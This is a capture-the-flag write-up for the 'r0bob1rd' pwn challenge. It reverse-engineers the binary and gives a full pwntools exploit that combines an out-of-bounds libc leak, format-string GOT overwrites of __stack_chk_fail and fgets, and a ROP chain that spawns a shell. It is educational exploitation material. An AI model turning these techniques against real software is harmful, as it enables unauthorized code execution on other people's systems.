




# Description

>
> I am developing a brand new game with robotic birds. Would you like to test my progress so far?

# Reverse Engineering

So we start with `checksec` to check binary security

```sh
[*] '/home/alter/lab/HTB/chal/pwn/r0bob1rd/r0bob1rd/r0bob1rd'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'./glibc/'
    Stripped:   No
```

We can see that, there is a 64-bit ELF with `No PIE` and `Partical RELRO`, so with that we can easily perform a `GOT Overwrite` attack. After that, let's take a look at `IDA` decompile result:

- `main()`
```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  ignore_me_init_buffering(argc, argv, envp);
  ignore_me_init_signal();
  banner();
  printRobobirds(&robobirdNames);               // "MechWings"
  operation();
  return 0;
}
```

- `operation()`
```c
unsigned __int64 operation()
{
  unsigned int n9; // [rsp+Ch] [rbp-74h] BYREF
  char s[104]; // [rsp+10h] [rbp-70h] BYREF
  unsigned __int64 v3; // [rsp+78h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  printf("\nSelect a R0bob1rd > ");
  fflush(stdout);
  __isoc99_scanf("%d", &n9);
  if ( n9 > 9 )
    printf("\nYou've chosen: %s", (const char *)&(&robobirdNames)[n9]);// "MechWings"
  else
    printf("\nYou've chosen: %s", (&robobirdNames)[n9]);// "MechWings"
  getchar();
  puts("\n\nEnter bird's little description");
  printf("> ");
  fgets(s, 106, stdin);
  puts("Crafting..");
  usleep(0x1E8480u);
  start_screen();
  puts("[Description]");
  printf(s);
  return __readfsqword(0x28u) ^ v3;
}
```

There is one function we need to focus on here `operation()`, while looking at it we can easily realize the flow of the program is:

- Ask us for input on something
- If your input is greater than 9, the program will print `You've chosen: %s`, where `%s` represents a string. The string is retrieved using `(const char *)&(&robobirdNames)[n9]`, which attempts to access an element in `robobirdNames` at index `n9`. However, the syntax is unusual and may not work as intended depending on how `robobirdNames` is defined.
- If not it still prints `You've chosen: %s` but now `%s` is the string which is retrieved using `(&robobirdNames)[n9]`
- And then ask us for a second input, this time our input will be stored at `s`
- And then print out our input using `print(s)`

Alright, we now know the flow of the program, so let's analyze it further. If we look at the condition

```c
  if ( n9 > 9 )
    printf("\nYou've chosen: %s", (const char *)&(&robobirdNames)[n9]);// "MechWings"
  else
    printf("\nYou've chosen: %s", (&robobirdNames)[n9]);// "MechWings"
```

We will see that although they print the same text (seemingly quite similar in function), if we look closely, It uses `(const char *)&(&robobirdNames)[n9]`, which treats robobirdNames as an array pointer. This can cause an `out-of-bounds` because the index `n9` is not properly validated, potentially accessing memory outside the valid range of the `robobirdNames` array.

So we have the `robobirdNames` array like this



The array contains 9 elements, but our goal isn't to access these elements. Instead, we aim to reach a function in the `Global Offset Table (GOT)`, which can help us leak the `libc address`.

And this is `GOT`



So by doing basic calculate we can have the offset from `robobirdNames[0]` -> `puts@GOT`
```
((address of robobirdNames[0]) - (address of puts@GOT)) / 8
->  (0x6020A0 - 0x0602020 ) /8 = 16

-> So our index is "-16" because the address of "robobirdNames[0]" is higher than "puts@GOT"
```

So the reason why we divide to 8 is because On a `64-bit system`, each pointer occupies 8 bytes of memory. Since `robobirdNames` is an array of `char*` (pointers to characters), each element in the array is 8 bytes in size. Therefore, to determine the number of elements in the array from its total memory size, we divide by 8.

This leads us to the formula for calculating the address of an element at a given index:

```
Target = base (address of index 0) + index * 8
```

Or we can just look at the disassembly of it:



So

```sh
.text:0000000000400B56                 mov     eax, [rbp+var_74]
.text:0000000000400B59                 cdqe
.text:0000000000400B5B                 lea     rdx, ds:0[rax*8]
```

Our index now is at `[rbp+var_74]` and is moved to `eax` and the `cdqe` instruction then converts this 32-bit value to a 64-bit one in `rax`, preparing it for further calculations. And then the `lea` (Load Effective Address) instruction computes an address based on the given expression. Here, it multiplies the rax (the 64-bit index) by 8. Since each element (a pointer) in a 64-bit system occupies 8 bytes, multiplying the index by 8 gives the correct byte offset from the base address of the array. And last one is to add that index with the base address of the array
```sh
.text:0000000000400B63                 lea     rax, robobirdNames
.text:0000000000400B6A                 add     rax, rdx
```

And at the end of the function, when it about to return it will `printf(s);`, this will give us a `Format String Bug`

# Exploit Development

So we all know how the program works, so let's start with the exploit.

Because there is no `Buffer Overflow` here (we can try to int cyclic string to test), we have `OOB` and `Format String Bug`. So I will point to you 2 ways to exploit this binary. The first is using `OOB` to leak libc address and then using `one gadget` to get a shell. The second one uses only `Format String Bug`

## Method 1

Okay, we know that the offset from `robobirdNames[0]` to `puts@GOT` above so I'll not talk about that here. The problem here is how we can perform `one gadget` with no `Buffer Overflow`.

The answer is yes, because we have `Format String`, although the length of our input is just `106` but when you try to give the program with `106` input length we can see a special thing:

```sh
pwndbg> cyclic 106
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaana
pwndbg> ni
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaana
0x0000000000400bbb in operation ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
──────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────────────────────────────────────────────────────
 RAX  0x7fffffffdb70 ◂— 'aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaan'
 RBX  0x400c60 (__libc_csu_init) ◂— push r15
*RCX  0x7ffff7f0ffd2 (read+18) ◂— cmp rax, -0x1000 /* 'H=' */
*RDX  0
*RDI  0x7ffff7ff07f0 ◂— 0
*RSI  0x7ffff7feea03 (_IO_2_1_stdin_+131) ◂— 0xff07f0000000006e /* 'n' */
*R8   0x7fffffffdb70 ◂— 'aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaan'
*R9   0
*R10  0x7ffff7e06070 ◂— 0
 R11  0x246
 R12  0x400820 (_start) ◂— xor ebp, ebp
 R13  0x7fffffffdcf0 ◂— 1
 R14  0
 R15  0
 RBP  0x7fffffffdbe0 —▸ 0x7fffffffdc00 ◂— 0
 RSP  0x7fffffffdb60 ◂— 0
*RIP  0x400bbb (operation+241) ◂— lea rdi, [rip + 0x333]
───────────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]───────────────────────────────────────────────────────────────────
   0x400ba3 <operation+217>    mov    rdx, qword ptr [rip + 0x201566]     RDX, [stdin@@GLIBC_2.2.5] => 0x7ffff7fee980 (_IO_2_1_stdin_) ◂— 0xfbad208b
   0x400baa <operation+224>    lea    rax, [rbp - 0x70]                   RAX => 0x7fffffffdb70 ◂— 0x19
   0x400bae <operation+228>    mov    esi, 0x6a                           ESI => 0x6a
   0x400bb3 <operation+233>    mov    rdi, rax                            RDI => 0x7fffffffdb70 ◂— 0x19
   0x400bb6 <operation+236>    call   fgets@plt                   <fgets@plt>

 ► 0x400bbb <operation+241>    lea    rdi, [rip + 0x333]     RDI => 0x400ef5 ◂— jb 0x400f59 /* 'Crafting..' */
   0x400bc2 <operation+248>    call   puts@plt                    <puts@plt>

   0x400bc7 <operation+253>    mov    edi, 0x1e8480          EDI => 0x1e8480
   0x400bcc <operation+258>    call   usleep@plt                  <usleep@plt>

   0x400bd1 <operation+263>    mov    eax, 0                 EAX => 0
   0x400bd6 <operation+268>    call   start_screen                <start_screen>
────────────────────────────────────────────────────────────────────────────────[ STACK ]─────────────────────────────────────────────────────────────────────────────────
00:0000│ rsp    0x7fffffffdb60 ◂— 0
01:0008│-078    0x7fffffffdb68 ◂— 0x1f7e92e93
02:0010│ rax r8 0x7fffffffdb70 ◂— 'aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaan'
03:0018│-068    0x7fffffffdb78 ◂— 'baaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaan'
04:0020│-060    0x7fffffffdb80 ◂— 'caaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaan'
05:0028│-058    0x7fffffffdb88 ◂— 'daaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaan'
06:0030│-050    0x7fffffffdb90 ◂— 'eaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaan'
07:0038│-048    0x7fffffffdb98 ◂— 'faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaan'
──────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]───────────────────────────────────────────────────────────────────────────────
 ► 0         0x400bbb operation+241
   1         0x400c52 main+67
   2   0x7ffff7e26083 __libc_start_main+243
   3         0x40084a _start+42
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> a
Ambiguous command "a": actions, add-auto-load-safe-path, add-auto-load-scripts-directory, add-inferior...
pwndbg> stack 40
00:0000│ rsp    0x7fffffffdb60 ◂— 0
01:0008│-078    0x7fffffffdb68 ◂— 0x1f7e92e93
02:0010│ rax r8 0x7fffffffdb70 ◂— 'aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaan'
03:0018│-068    0x7fffffffdb78 ◂— 'baaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaan'
04:0020│-060    0x7fffffffdb80 ◂— 'caaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaan'
05:0028│-058    0x7fffffffdb88 ◂— 'daaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaan'
06:0030│-050    0x7fffffffdb90 ◂— 'eaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaan'
07:0038│-048    0x7fffffffdb98 ◂— 'faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaan'
08:0040│-040    0x7fffffffdba0 ◂— 'gaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaan'
09:0048│-038    0x7fffffffdba8 ◂— 'haaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaan'
0a:0050│-030    0x7fffffffdbb0 ◂— 'iaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaan'
0b:0058│-028    0x7fffffffdbb8 ◂— 'jaaaaaaakaaaaaaalaaaaaaamaaaaaaan'
0c:0060│-020    0x7fffffffdbc0 ◂— 'kaaaaaaalaaaaaaamaaaaaaan'
0d:0068│-018    0x7fffffffdbc8 ◂— 'laaaaaaamaaaaaaan'
0e:0070│-010    0x7fffffffdbd0 ◂— 'maaaaaaan'
0f:0078│-008    0x7fffffffdbd8 ◂— 0x49bd64e70914006e /* 'n' */
10:0080│ rbp    0x7fffffffdbe0 —▸ 0x7fffffffdc00 ◂— 0
11:0088│+008    0x7fffffffdbe8 —▸ 0x400c52 (main+67) ◂— mov eax, 0
```

We can see a part of our input `overflow` and `overwrite` a part of `canary` value. And we know that when the value of `canary` has changed `___stack_chk_fail` function will be called. So we'll take advantage of that with our string format to overwrite `___stack_chk_fail` to the address of `one gadget` and from there get the shell

```py
def method1():
    sla(b'> ', b'-16')

    ru(b'chosen: ')
    puts = u64(rl()[:-1] + b'\0\0')
    libc.address = puts - 0x84420
    one_gadget = libc.address + 0xe3b01
    slog('Puts',puts)
    slog('Libc base', libc.address)
    slog('One gadget', one_gadget)

    offset = 8
    write = {
        exe.got["__stack_chk_fail"]: one_gadget
    }

    payload = fmtstr_payload(offset, write, write_size='short')
    payload = payload.ljust(106, b'.')
    sa(b'> ',payload)
```

## Method 2

This one is a little bit complex, but I'll try my best to explain it more clearly. So the first thing we need to do is find a way to let the program `return to operation`. As I told you in `method 1`, we can use `Format String Bug` to overwrite `___stack_chk_fail` to `operation` function. With that when we change the value of `canary` we can make it `call operation`

Next, when we let the program run indefinitely while changing the value of the canary, we will no longer worry about the program ending when it finishes executing. And now we can continue with the address leak, and the 2 addresses we need to pay attention to here are `libc` and `stack address`. Why the stack address? Because we will put our `ROP` chain here and let the program return to it and execute the shell

But the problem here is which `stack` address we need to leak most accurately because the address on the stack is always changing due to `ASLR`, but there is one thing that is always accurate, which is the address in `saved RBP`

So the payload for this part will be

```py
    offset = 8
    write = {
        exe.got["__stack_chk_fail"]: exe.sym["operation"]
    }

    payload = fmtstr_payload(offset, write, write_size='short')
    payload = payload.ljust(106, b".")
    sla(b">", b"10")
    sa(b">", payload)

    payload = f"hehe|%22$p|%45$p|".encode()
    payload = payload.ljust(106, b".")

    sa(b">", payload)
    ru(b"hehe|")
    leaks = rl().split(b"|")
    stack_leak = int(leaks[0], 16)
    stack = stack_leak - 0x1a8
    libc.address = int(leaks[1], 16) - 0x24083
    slog("libc base", libc.address)
    slog("stack_leak", stack_leak)
    slog("stack", stack)
```

Once we have the necessary things, we can put the ROP chain in. Note that a ROP chain using our format string is always longer than 200, and we need to change `fgets` to `gets`. We won't have to worry about the length of the payload anymore. Also, since we have re-executed the program many times, the `saved RBP` that we leaked is not the original `saved RBP` anymore.


What we need to do is find the `RBP` address that it will use on the first return by calculating the offset from what we leaked to that address. To find the address, we will run the program and input data in such a way that it does not change the value of the canary. When the program is about to return, we will see the value there.


And the offset is

```sh
pwndbg> p/x 0x7ffca25f0e20-0x7ffca25f0c78
$1 = 0x1a8
```

And last a put a`ROP` chain to that `stack address` using `Format String Bug`

```py
    write = {
        exe.got["fgets"]: libc.sym["gets"]
    }

    payload = fmtstr_payload(offset, write, write_size='short')
    payload = payload.ljust(106, b".")

    sa(b">", payload)

    sh = next(libc.search(b"/bin/sh\0"))
    system = libc.sym["system"]
    pop_rdi = 0x400cc3 # pop rdi; ret;
    ret = 0x040074e # ret;

    write = {
        stack: pop_rdi,
        stack + 8: sh,
        stack + 16: ret,
        stack + 24: system
    }

    payload = fmtstr_payload(offset, write, write_size='short')
    print(len(payload))
    sa(b">", payload)

    sl(b"alter")
    sl(b"alter")
```

And this is full payload for method 2

```py
def method2():

    offset = 8
    write = {
        exe.got["__stack_chk_fail"]: exe.sym["operation"]
    }

    payload = fmtstr_payload(offset, write, write_size='short')
    payload = payload.ljust(106, b".")
    sla(b">", b"10")
    sa(b">", payload)

    payload = f"hehe|%22$p|%45$p|".encode()
    payload = payload.ljust(106, b".")

    sa(b">", payload)
    ru(b"hehe|")
    leaks = rl().split(b"|")
    stack_leak = int(leaks[0], 16)
    stack = stack_leak - 0x1a8
    libc.address = int(leaks[1], 16) - 0x24083
    slog("libc base", libc.address)
    slog("stack_leak", stack_leak)
    slog("stack", stack)

    write = {
        exe.got["fgets"]: libc.sym["gets"]
    }

    payload = fmtstr_payload(offset, write, write_size='short')
    payload = payload.ljust(106, b".")

    sa(b">", payload)

    sh = next(libc.search(b"/bin/sh\0"))
    system = libc.sym["system"]
    pop_rdi = 0x400cc3 # pop rdi; ret;
    ret = 0x040074e # ret;

    write = {
        stack: pop_rdi,
        stack + 8: sh,
        stack + 16: ret,
        stack + 24: system
    }

    payload = fmtstr_payload(offset, write, write_size='short')
    print(len(payload))
    sa(b">", payload)

    sl(b"alter")
    sl(b"alter")
```

## Full exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwncus import *

# context.log_level = 'debug'
exe = context.binary = ELF('./r0bob1rd_patched', checksec=False)
libc = exe.libc

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript='''

        b*operation+297
        b*main+72
        c
        '''.format(**locals()), *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

p = start()

# ==================== EXPLOIT ====================

def method1():
    sla(b'> ', b'-16')

    ru(b'chosen: ')
    puts = u64(rl()[:-1] + b'\0\0')
    libc.address = puts - 0x84420
    one_gadget = libc.address + 0xe3b01
    slog('Puts',puts)
    slog('Libc base', libc.address)
    slog('One gadget', one_gadget)

    offset = 8
    write = {
        exe.got["__stack_chk_fail"]: one_gadget
    }

    payload = fmtstr_payload(offset, write, write_size='short')
    payload = payload.ljust(106, b'.')
    sa(b'> ',payload)

def method2():

    offset = 8
    write = {
        exe.got["__stack_chk_fail"]: exe.sym["operation"]
    }

    payload = fmtstr_payload(offset, write, write_size='short')
    payload = payload.ljust(106, b".")
    sla(b">", b"10")
    sa(b">", payload)

    payload = f"hehe|%22$p|%45$p|".encode()
    payload = payload.ljust(106, b".")

    sa(b">", payload)
    ru(b"hehe|")
    leaks = rl().split(b"|")
    stack_leak = int(leaks[0], 16)
    stack = stack_leak - 0x1a8
    libc.address = int(leaks[1], 16) - 0x24083
    slog("libc base", libc.address)
    slog("stack_leak", stack_leak)
    slog("stack", stack)

    write = {
        exe.got["fgets"]: libc.sym["gets"]
    }

    payload = fmtstr_payload(offset, write, write_size='short')
    payload = payload.ljust(106, b".")

    sa(b">", payload)

    sh = next(libc.search(b"/bin/sh\0"))
    system = libc.sym["system"]
    pop_rdi = 0x400cc3 # pop rdi; ret;
    ret = 0x040074e # ret;

    write = {
        stack: pop_rdi,
        stack + 8: sh,
        stack + 16: ret,
        stack + 24: system
    }

    payload = fmtstr_payload(offset, write, write_size='short')
    print(len(payload))
    sa(b">", payload)

    sl(b"alter")
    sl(b"alter")


def exploit():

    # method1()
    method2()

    interactive()

if __name__ == '__main__':
  exploit()
```
